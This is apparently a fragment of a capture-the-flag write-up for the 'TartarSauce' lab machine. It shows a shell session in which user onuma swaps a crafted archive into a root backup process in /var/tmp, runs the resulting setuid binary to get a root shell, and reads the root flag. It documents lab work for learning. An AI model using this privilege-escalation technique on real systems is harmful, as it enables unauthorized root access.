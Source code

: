 ```bash
drwx------  3 root  root      4096 May 12 06:55 systemd-private-e11430f63fc04ed6bd67ec90687cb00e-systemd-timesyncd.service-PYhxgX
onuma@TartarSauce:/var/tmp$ cp setuid.tar.gz .61241673532ae3e1586daf4f28fa3a58ccff8c86
onuma@TartarSauce:/var/tmp$ ls -al
total 48
drwxrwxrwt 10 root  root  4096 Sep  7 07:36 .
drwxr-xr-x 14 root  root  4096 May 12 06:55 ..
-rw-r--r--  1 onuma onuma 2700 Sep  7 07:37 .61241673532ae3e1586daf4f28fa3a58ccff8c86
-rw-r--r--  1 onuma onuma 2700 Sep  7 07:28 setuid.tar.gz
drwx------  3 root  root  4096 May 12 06:55 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4096 May 12 06:55 systemd-private-4e3fb5c5d5a044118936f5728368dfc7-systemd-timesyncd.service-SksmwR
drwx------  3 root  root  4096 May 12 06:55 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4096 Sep  6 22:57 systemd-private-8fc3d2ba21bb410382e7dcf02ae9fc15-systemd-timesyncd.service-qprLOA
drwx------  3 root  root  4096 May 12 06:55 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4096 May 12 06:55 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4096 May 12 06:55 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
drwx------  3 root  root  4096 May 12 06:55 systemd-private-e11430f63fc04ed6bd67ec90687cb00e-systemd-timesyncd.service-PYhxgX
onuma@TartarSauce:/var/tmp$ cd check/var/www/html
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls
setuid
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -al1
total 24
drwxr-xr-x 2 onuma onuma  4096 Sep  7 07:27 .
drwxr-xr-x 3 onuma onuma  4096 Sep  6 22:48 ..
-r-sr-sr-x 1 root  root  15188 Sep  7 07:27 setuid
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./setuid
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(onuma)
# whoami
root
# cat /root/root.txt
812606e4a46344cc79a223a64204c233
```

